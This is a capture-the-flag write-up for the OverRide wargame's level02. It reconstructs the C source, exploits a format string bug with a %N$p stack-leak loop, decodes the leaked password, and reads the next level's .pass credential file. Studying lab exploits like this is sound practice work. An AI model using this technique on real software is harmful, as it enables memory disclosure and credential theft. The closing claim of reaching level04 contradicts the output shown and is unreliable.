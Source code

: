 # Level02

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector -z execstack -z norelro source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv)
{
    FILE *file; // -0x8(%rbp)
    int len; // -0xc(%rbp)
    char username[100] = { 0 }; // -0x70(%rbp)
    char flag[41] = { 0 }; // -0xa0(%rbp)
    char password[100] = { 0 }; // -0x110(%rbp)

    file = 0;
    len = 0;

    file = fopen("/home/users/level03/.pass", "r");
    if (file == 0)
    {
        fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
        exit(1);
    }

    len = fread(flag, 1, 41, file);
    flag[strcspn(flag, "\n")] = 0;
    if (len != 41)
    {
        fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
        fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
        exit(1);
    }

    fclose(file);

    puts("===== [ Secure Access System v1.0 ] =====");
    puts("/***************************************\\");
    puts("| You must login to access this system. |");
    puts("\\**************************************/");

    printf("--[ Username: ");
    fgets(username, 100, stdin);
    username[strcspn(username, "\n")] = 0;

    printf("--[ Password: ");
    fgets(password, 100, stdin);
    password[strcspn(password, "\n")] = 0;

    puts("*****************************************");

    if (strncmp(flag, password, 41) == 0)
    {
        printf("Greetings, %s!\n", username);
        system("/bin/sh");
        return 0;
    }

    printf(username);
    puts(" does not have access!");
    exit(1);
}
```

Let's focus on the `main` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However, the `printf` function is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability.
> You can read more about format string vulnerabilities [here](https://owasp.org/www-community/attacks/Format_string_attack).

We notice from the C code that the password is read from a file and stored in the `flag` variable. The `strncmp` function is used to compare the `flag` and `password` variables. If the comparison is successful, the program will execute `/bin/sh`. Since the `flag` variable is stored on the stack, we can use a format string vulnerability to read its value.

To locate our variable on the stack, we'll use this simple bash script:
```bash
for i in {1..42};
    do echo $i %$i\$p | ./level02 | grep does;
done
```
Which will print the stack values for the first 42 arguments. We can then convert the hexadecimal values to ASCII and reverse them to get the password.
```bash
level02@OverRide:~$ for i in {1..42};     do echo $i %$i\$p | ./level02 | grep does; done
[...]
22 0x756e505234376848 does not have access!
23 0x45414a3561733951 does not have access!
24 0x377a7143574e6758 does not have access!
25 0x354a35686e475873 does not have access!
26 0x48336750664b394d does not have access!
[...]
```
> The reason why our variable is located between the 22nd and 26th addresses is because the `flag` variable is located at `-0xa0(%rbp)` which is 160 in decimal, just add 16 (for the ret address, argc, argv, and envp) and you get 176 which devided by 8 (our addresses are 8 bytes long because 64 bits) is 22.

We appear to have found the password, let's convert it to ASCII:
```
0x756e505234376848 -> Hh74RPnu
0x45414a3561733951 -> Q9sa5JAE
0x377a7143574e6758 -> XgNWCqz7
0x354a35686e475873 -> sXGnh5J5
0x48336750664b394d -> M9KfPg3H

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Let's try to log in with the password we found:
```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: assxios
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, assxios!
$ whoami
level03
$ cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

We are now level04! Let's move on to the next level.

